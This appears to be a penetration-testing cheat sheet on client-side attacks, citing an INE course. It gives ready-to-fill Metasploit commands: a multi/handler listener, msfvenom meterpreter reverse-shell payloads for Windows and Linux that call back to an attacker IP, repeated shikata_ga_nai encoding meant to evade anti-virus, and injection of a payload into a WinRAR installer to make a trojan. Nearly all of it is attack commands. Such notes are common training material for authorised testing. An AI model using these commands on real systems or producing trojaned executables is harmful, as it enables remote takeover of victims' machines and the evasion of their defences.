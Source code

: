 # Client-Side Attacks

* [msfconsole listener](#msfconsole-listener)
* [Generating Payloads With Msfvenom](#generating-payloads-with-msfvenom)
* [Encoding Payloads With Msfvenom](#encoding-payloads-with-msfvenom)
* [Injecting Payloads Into Windows Portable Executables](#injecting-payloads-into-windows-portable-executables)
* [References](#references)

***********************************************************************
Items inside [SQUARE-BRACKETS] indicate changeable (fill in the blank) fields.  
Note: Bracket characters themselves [ ] require removal. See examples.
***********************************************************************

* Client-Side attacks require human interaction and does not take advantage of services on the target system.
* Be mindful of anti-virus on client system.

## msfconsole listener

```
use multi/handler
```
```
set payload [PAYLOAD]
```
Windows x86 Example:
```
set payload windows/meterpreter/reverse_tcp
```
```
show options
```
```
set LHOST [ATTACK-IP]
```
```
set LPORT [PORT]
```
```
run
```
* Now execute payload on client system to get a meterpreter shell 

***********************************************************************

## Generating Payloads With Msfvenom

* Msfvenom is a combination of msfpayload and msfencode.
* Msfvenom is used to generate malicious meterpreter payload that can be transfered to target system and connects back to attacker.  

List payloads:
```
msfvenom --list payloads
```

List outfile formats:
```
msfvenom --list formats
```

### Windows

Staged payload example:
```
windows/x64/meterpreter/reverse_http
```
Un-staged payload example:
```
windows/x64/meterpreter_reverse_http
```

64 bit architecture example: 
```
windows/x64/meterpreter/reverse_http
```

```
windows/meterpreter/reverse_http
```

Generate payload examples:
```
msfvenom -a x86 -p windows/meterpreter/reverse_tcp LHOST=[ATTACK-IP] LPORT=[PORT] -f exe > [OUTFILE]
```
```
msfvenom -a x64 -p windows/x64/meterpreter/reverse_tcp LHOST=[ATTACK-IP] LPORT=[PORT] -f exe > [OUTFILE]
```
* ensure file extension is specified in the [OUTFILE]
* -f is the format, and you can use other extensions that are not .exe depending on the use-case.

### Linux

32 bit (x86) architecture example:
```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=[ATTACK-IP] LPORT=[PORT] -f elf > [OUTFILE]
```
64 bit architecture example:
```
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=[ATTACK-IP] LPORT=[PORT] -f elf > [OUTFILE]
```

***********************************************************************

## Encoding Payloads With Msfvenom

List encoders:
```
msfvenom --list encoders
```

### Windows

Encode payload examples:
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[ATTACK-IP] LPORT=[PORT] -e [ENCODER] -f exe > [OUTFILE]
```
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=1234 -e x86/shikata_ga_nai -f exe > Desktop/encoded_payload.exe
```
* Note the number of iterations for the encoder in the terminal output after running the command:
   * "Attempting to encode payload with 1 iterations of x86/shikata_ga_nai"
   * You can encode a payload multiple times, the more encoding iterations of the payload, the greater the chance you have to bypass anti-virus detection. 
   * use "-i [#]" after "LPORT" to set the amount of iterations:
   ```
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=[ATTACK-IP] LPORT=[PORT] -i [#] -e [ENCODER] -f exe > [OUTFILE]
   ```
   ```
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=1234 -i 10 -e x86/shikata_ga_nai -f exe > Desktop/encoded_payload.exe
   ```
   * Suggest not going over 10 iterations because of the law of diminishing returns.

### Linux

Encode payload examples:
```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=[ATTACK-IP] LPORT=[PORT] -i [#] -e [ENCODER] -f elf > [OUTFILE]
```
```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=1234 -i 10 -e x86/shikata_ga_nai -f elf > Desktop/encoded_payload
```

* Now transfer encoded payload to target machine, start a meterpreter listener, and execute the payload from the target machine.

***********************************************************************

## Injecting Payloads Into Windows Portable Executables

* Not all executables are able to have payloads injected into them.
* WinRAR is a good executable to inject payload into.

Examples:
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[ATTACK-IP] LPORT=[PORT] -e [ENCODER] -f exe -x [EXE-TO-INJECT] > [OUTFILE]
```
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=1234 -e x86/shikata_ga_nai -f exe -x ~/Downloads/wrar602.exe > Desktop/TrojanWinRAR.exe
```
* Now transfer encoded payload to target machine, start a meterpreter listener, and execute the payload from the target machine.

The -k option maintains the original functionality of the executable, however it's not always reliable, much testing needs to be done to get this to work:
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[ATTACK-IP] LPORT=[PORT] -e [ENCODER] -f exe -k -x [EXE-TO-INJECT] > [OUTFILE]
```

You can migrate into a new process by entering:
```
run post/windows/manage/migrate
```

***********************************************************************

### References
Penetration Tester Student v2 by INE  
https://my.ine.com/CyberSecurity/learning-paths/61f88d91-79ff-4d8f-af68-873883dbbd8c/penetration-testing-student-v2